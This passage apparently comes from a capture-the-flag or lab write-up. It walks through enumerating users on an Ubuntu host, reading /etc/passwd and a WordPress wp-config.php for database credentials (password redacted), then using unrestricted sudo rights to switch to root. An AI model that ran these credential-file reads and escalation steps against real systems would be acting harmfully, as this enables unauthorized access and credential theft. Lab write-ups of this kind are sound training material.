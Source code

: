 **System users:**
```
patrick@ubuntu:~$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
patrick:x:1000:1000:patrick,,,:/home/patrick:/bin/bash
cat:x:1001:1001:,,,:/home/cat:/bin/bash
```

```
patrick@ubuntu:~$ ls -lah /home
total 16K
drwxr-xr-x  4 root    root    4.0K Aug  4 14:16 .
drwxr-xr-x 22 root    root    4.0K Oct  8 09:25 ..
drwxr-xr-x 14 cat     cat     4.0K Oct  8 08:45 cat
drwxr-xr-x  4 patrick patrick 4.0K Dec 28 20:54 patrick
```

Found 2 system users: `cat` and `patrick`

**MySQL credentials:**
```
patrick@ubuntu:~$ cat /var/www/html/wordpress/wp-config.php
[...]
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'patrick' );

/** MySQL database password */
define( 'DB_PASSWORD', '{Redacted}' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
[...]
```

**Armed with above information, we can directly escalate to root!**

**In the sudo permission, user `patrick` can run any commands as root:**
```
User patrick may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

**Let's Switch User to root!**
```
patrick@ubuntu:~$ sudo su root
root@ubuntu:/home/patrick# whoami;hostname;id;ip a
root
ubuntu
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:72:4d:ef:1b:1f brd ff:ff:ff:ff:ff:ff
    inet 10.10.53.4/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::72:4dff:feef:1b1f/64 scope link 
       valid_lft forever preferred_lft forever
```
